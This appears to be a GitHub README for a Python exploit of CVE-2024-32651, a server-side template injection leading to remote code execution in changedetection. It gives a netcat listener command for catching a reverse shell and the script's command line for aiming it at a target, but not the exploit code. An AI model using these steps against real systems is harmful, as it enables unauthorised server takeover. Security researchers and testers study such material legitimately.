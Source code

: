 # CVE-2024-32651 changedetection < 0.45.20 - Remote Code Execution (RCE)

Server-Side Template Injection Exploit!!
## 1. Title
Remote Code Execution via Server-Side Template Injection (SSTI) in Vulnerable Web Application

## 2. Description
This exploit targets a web application vulnerable to Server-Side Template Injection (SSTI). By exploiting this vulnerability, an attacker can execute arbitrary commands on the server. The provided Python script automates the exploitation process by submitting a payload that triggers a reverse shell.

## 3. Vulnerability Information
1. **CVE ID:** CVE-2024-32651
2. **Affected Systems:** Web applications that use Server-Side Template Injection (SSTI) and have a vulnerable configuration.

## 4. Proof of Concept
To reproduce the vulnerability, execute the provided Python script against the vulnerable web application. Ensure that you have a listener (e.g., `nc -lvp 9999`) running to capture the reverse shell connection.

## 5. Usage
1. **Save the script** to a file named `CVE-2024-32651.py`.

2. **Install the required Python libraries** if not already installed:
   ```bash
   pip install requests beautifulsoup4

3.  To use the script, provide the following command-line arguments:
- `--url`: **Base URL of the vulnerable web application** (e.g., `http://10.10.10.10:5000`).
- `--port`: **Port for the listener** (e.g., `9999`).
- `--ip`: **IP address of the listener** (e.g., `10.10.50.22`).
- `--notification`: *(Optional)* **Notification URL** if you want to use a specific notification URL.
- 
4. **Run the script** using Python 3 with the required arguments. The syntax is:
   ```bash
   python3 CVE-2024-32651.py --url http://<TARGET_URL> --port <LISTENER_PORT> --ip <LISTENER_IP> [--notification <NOTIFICATION_URL>]

## 6. Credits
This fixed version of the exploit was based on an original exploit published by Zach Crosman (zcrosman) with EDB-ID: 52027. You can view the original exploit [here](https://www.exploit-db.com/exploits/52027).
I  thank Zach Crosman for his contribution to the security community.
